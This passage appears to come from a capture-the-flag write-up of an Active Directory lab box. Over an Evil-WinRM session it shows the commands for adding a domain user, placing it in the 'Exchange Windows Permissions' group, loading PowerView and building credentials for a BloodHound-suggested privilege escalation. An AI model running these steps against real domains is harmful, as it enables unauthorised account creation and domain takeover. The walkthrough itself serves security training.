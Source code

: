 ```
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net user dana dana12345dana /add /domain
The command completed successfully.
```

Add to the group 'Exchange Windows Permissions' this user:

```
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net group "Exchange Windows Permissions" /add dana
The command completed successfully.
```

To perform Windows Abuse, there is a need of PowerView.ps1:
![alt text](image-9.png)

Th command running:

```
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> . ./PowerView.ps1
```

The commands to abuse provided by BloodHound:

```
$SecPassword = ConvertTo-SecureString 'dana12345dana' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('htb.local\dana', $SecPassword)
```
